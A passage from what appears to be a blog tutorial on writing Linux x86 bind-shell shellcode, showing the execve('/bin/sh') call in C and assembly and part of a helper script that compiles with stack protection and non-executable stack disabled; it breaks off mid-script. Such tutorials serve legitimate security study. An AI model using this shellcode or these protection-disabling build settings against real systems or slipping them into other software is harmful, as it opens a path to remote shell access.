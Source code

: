 The shell we're going to invoke using execve() system call will inherit the
duplicated descriptors, so any flow will be on the accepted socket.

Our PoC here is very simple. execve() call has three parameters:

{%highlight c%}
int execve(const char *path, char *const argv[], char *const envp[]);
{%endhighlight%}

The first parameter is the executable to be executed, the second parameter is
the pointer of the parameter list and the third parameter is a pointer to the
list of the environmental variables to be used by our executable.

In our case, we don't need to pass command line argument or environmental
variables to our shell, therefore, we can easily pass NULL pointers.

{%highlight c%}
execve((const char *)"/bin/sh", NULL, NULL);
{%endhighlight%}

In assembler everythins is translated as:

{%highlight asm%}
; Executing shell
;
; int execve(const char *filename, char *const argv[], char *const envp[]);
; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

xor eax, eax
push eax	; The NULL byte
push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
push 0x6e69622f ; "nib/"
mov ebx, esp	; EBX now points to "/bin//sh"

xor ecx, ecx
xor edx, edx
mov al, 0xB	; 11 in decimal
int 0x80

{%endhighlight%}

## My helper programs

The compile script shell:

{% highlight sh %}
#!/bin/bash

# This is the compile helper. I modified a bit, just
# to detect the file extension and call nasm or gcc
# accordingly.

dirname=$(dirname -- "$1")
filename=$(basename -- "$1")
extension="${filename##*.}"
filename="${filename%.*}"

echo "[*] Compiling $filename"

if [ "$extension" = "c" ]; then
	echo "[+] Calling gcc without stack protection"
	gcc -fno-stack-protector -z execstack $1 -o $dirname/$filename
fi

if [ "$extension" = "nasm" ]; then
